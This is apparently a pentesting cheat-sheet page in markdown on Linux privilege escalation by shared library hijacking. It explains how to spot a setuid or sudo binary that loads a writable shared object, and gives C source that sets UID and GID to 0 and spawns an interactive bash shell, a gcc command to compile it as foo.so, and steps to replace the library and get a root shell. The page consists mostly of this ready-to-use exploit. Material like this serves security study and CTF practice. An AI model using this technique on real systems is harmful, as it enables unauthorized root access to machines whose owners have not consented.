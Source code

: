 ```yaml
---
title: Shared Library Hijacking
description: 
tags:
    - Linux
    - Privilege Escalation
refs:
date: 2023-09-13
draft: false
---
```


## Investigation

When we find the binary file as setuid or sudo command, check the strings of the binary file.

```bash
strings ./example
strace ./example
gdb ./example

...
foo.so
...
```

If the binary file uses a shared library (e.g. **`foo.so`**) and this library can be modified, we can update it and get a root shell.

```bash
find / -type f -name "foo.so" 2>/dev/null
ls -al /path/to/foo.so

drwxrwxrwx 1 user user 64 Dec 15 09:13 foo.so
```

<br /><br />

## Exploitation

Create **"foo.c"**. 

```c
#include <stdlib.h>
#include <unistd.h>

void foo() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```

Then compile it to shared object.

```bash
gcc -shared -fPIC -nostartfiles -o foo.so foo.c
```

Put the shared file to **`/path/to/foo.so`** .  
Now run the binary.

```bash
./example
# or
sudo ./example
```

We should get a root shell.
